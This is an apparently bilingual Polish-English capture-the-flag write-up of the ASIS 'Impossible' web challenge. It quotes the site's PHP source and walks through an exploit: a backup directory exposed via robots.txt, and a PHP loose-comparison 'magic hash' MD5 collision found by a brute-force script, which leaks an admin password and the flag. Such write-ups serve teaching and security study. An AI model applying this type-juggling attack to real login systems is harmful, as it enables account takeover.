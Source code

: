 ## Impossible

### PL
[ENG](#eng-version)

Według opisu zadania, flaga jest schowana na stronie http://impossible.asis-ctf.ir/
Możemy tam zakładać konta, ale muszą one zostać aktywowane żeby się zalogować.
Jak zwykle zaczynamy od ściągnięcia `robots.txt` aby sprawdzić co autorzy strony chcą przed nami ukryć.
http://impossible.asis-ctf.ir/robots.txt ma tylko jeden wpis:

    User-agent: *
    Disallow: /backup

Pod http://impossible.asis-ctf.ir/backup/ znajdziemy zrzut całej strony. Znacząco ułatwia nam to zadanie.

W `functions.php` znajduje się mini-implementacja bazy danych:

	function username_exist($username) {
		$data = file_get_contents('../users.dat');
		$users = explode("\n", $data);
		foreach ($users as $key => $value) {
			$user_data = explode(",", $value);
			if ($user_data[2] == '1' && base64_encode($username) == $user_data[0]) {
				return true;
			}
		}
		return false;
	}

	function add_user($username, $email, $password) {
		file_put_contents("../users.dat", base64_encode($username) . "," . base64_encode($email) . ",0\n", $flag = FILE_APPEND);
		file_put_contents("../passwords.dat", md5($username) . "," . base64_encode($password) . "\n", $flag = FILE_APPEND);
	}

	function get_user($username) {
		$data = file_get_contents('../passwords.dat');
		$passwords = explode("\n", $data);
		foreach ($passwords as $key => $value) {
			$user_data = explode(",", $value);
			if (md5($username) == $user_data[0]) {
				return array($username, base64_decode($user_data[1]));
			}
		}
		return array("", "");
	}

`register.php` umożliwia nam stworzenie nowego konta - o ile nie istnieje już jakieś o tej samej nazwie:
	
	$check = preg_match("/^[a-zA-Z0-9]+$/", $_POST['username']);
	if (!$check) {
	} elseif (username_exist($_POST['username'])) {
		$result = 1;
		$title = "Registration Failed";
	} else {
		add_user($_POST['username'], $_POST['email'], $_POST['password']);
		$user_info = get_user($_POST['username']);
		$result = 2;
		$title = "Registration Complete";
	}

`index.php` umożliwia zalogowanie się - o ile użytkownik jest aktywny i ma pasujące hasło:

	if(username_exist($_POST['username'])) {
		$user_info = get_user($_POST['username']);
		if ($user_info[1] == $_POST['password']) {
			$login = true;
		}
	}

Nasz atak wykorzystuje kilka luk:

1. W `passwords.dat` nazwy użytkownika są zahaszowane MD5 ale hasła są tylko zakodowane base64.
2. `register.php` wypisuje hasło nowo utworzonego użytkownika. Albo, dokładniej, hasło pierwszego użytkownika którego nazwa ma takie samo md5.
3. Skróty md5 są porównywane operatorem `==`. Jeżeli porównywane łańcuchy są poprawnymi liczbami, zostaną porównane jako liczby.
4. Dziwnym zbiegiem okoliczności aktywny użytkownik z takim numerycznym md5 już istnieje w bazie: `md5("adm2salwg") == "0e004561083131340065739640281486"`

`0e004561083131340065739640281486` po przekonwertowaniu na liczbę jest równe 0 (w notacji matematycznej 0*10<sup>4561083131340065739640281486</sup>). Potrzebna nam będzie inna nazwa, której md5 jest również równe 0 po skonwertowaniu na liczbę.
Nawet w PHP, przeszukując kolejne liczby dostaniemy wynik po zaledwie kilku minutach:

	$p = md5("adm2salwg");
	$i = 0;
	while(true) {
		if(md5("".$i) == $p) {
			echo $i;
		}
		$i++;
	}

Pierwsze rozwiązanie: `240610708` nie zadziałało. Użytkownik z taką nazwą już istniał w bazie. Drugie rozwiązanie: `314282422` zadziałało bez problemu.
Wystarczy stworzyć nowe konto o nazwie: `314282422` a skrypt odeśle nam hasło użytkownika `adm2salwg`:

    1W@ewes$%rq0

Po zalogowaniu jako `adm2salwg`, pojawia się flaga:

	ASIS{d9fb4932eb4c45aa793301174033dff9}

Skrypty posiadają jeszcze jedną, potencjalnie użyteczną, lukę. `file_put_contents` nie jest operacją atomową.
Przez rejestrację wielu użytkowników z długimi nazwami i emailami równolegle, powinno się dać utworzyć niepoprawne wpisy w obu plikach.
Nie udało nam się tego jednak wykorzystać.

### ENG version

The flag is supposed to be hidden here: http://impossible.asis-ctf.ir/
It looks like we can add new accounts, but they must be activated before logging in.
As usual, we start by examining `robots.txt` to find what we are not supposed to look at.
http://impossible.asis-ctf.ir/robots.txt contains just two lines:

    User-agent: *
    Disallow: /backup

http://impossible.asis-ctf.ir/backup/ contains dump of the whole site which is going to make the whole thing a lot easier.

`functions.php` contains an ad-hoc implementation of a database:

	function username_exist($username) {
		$data = file_get_contents('../users.dat');
		$users = explode("\n", $data);
		foreach ($users as $key => $value) {
			$user_data = explode(",", $value);
			if ($user_data[2] == '1' && base64_encode($username) == $user_data[0]) {
				return true;
			}
		}
		return false;
	}

	function add_user($username, $email, $password) {
		file_put_contents("../users.dat", base64_encode($username) . "," . base64_encode($email) . ",0\n", $flag = FILE_APPEND);
		file_put_contents("../passwords.dat", md5($username) . "," . base64_encode($password) . "\n", $flag = FILE_APPEND);
	}

	function get_user($username) {
		$data = file_get_contents('../passwords.dat');
		$passwords = explode("\n", $data);
		foreach ($passwords as $key => $value) {
			$user_data = explode(",", $value);
			if (md5($username) == $user_data[0]) {
				return array($username, base64_decode($user_data[1]));
			}
		}
		return array("", "");
	}

`register.php` allows you to add new account, unless one already exists and is active:
	
	$check = preg_match("/^[a-zA-Z0-9]+$/", $_POST['username']);
	if (!$check) {
	} elseif (username_exist($_POST['username'])) {
		$result = 1;
		$title = "Registration Failed";
	} else {
		add_user($_POST['username'], $_POST['email'], $_POST['password']);
		$user_info = get_user($_POST['username']);
		$result = 2;
		$title = "Registration Complete";
	}

`index.php` allows you to login, if user is active and has matching password:

	if(username_exist($_POST['username'])) {
		$user_info = get_user($_POST['username']);
		if ($user_info[1] == $_POST['password']) {
			$login = true;
		}
	}

Our exploit leverages several issues in those scripts.

1. `passwords.dat` contains md5 sums of user names but passwords are base64 encoded.
2. `register.php` will echo your password back to you. Or, actually, password of first user whose name has the same md5 as yours.
3. md5s are compared using == operator. If compared strings are valid numbers, they will be parsed first.
4. By strange coincidence active user with such numeric md5 already exists in the database: `md5("adm2salwg") == "0e004561083131340065739640281486"`

`0e004561083131340065739640281486` parses to number 0. We just need a different user name which md5 also parses to 0.
Brute forcing that, even in PHP, only takes a couple of minutes.

	$p = md5("adm2salwg");
	$i = 0;
	while(true) {
		if(md5("".$i) == $p) {
			echo $i;
		}
		$i++;
	}

First solution: `240610708` didn't work. There already was an account with that name. But the second one: `314282422` worked fine.
All you have to do is create account with user name: `314282422` and script will echo you `adm2salwg`'s password:

    1W@ewes$%rq0

After logging in as `adm2salwg`, flag is displayed:

	ASIS{d9fb4932eb4c45aa793301174033dff9}

There is one more potentially critical issue in those scripts. `file_put_contents` is not atomic.
By registering a lot of users with long names and emails, it should be possible to create bogus entries in both databases.
We weren't able to exploit it though.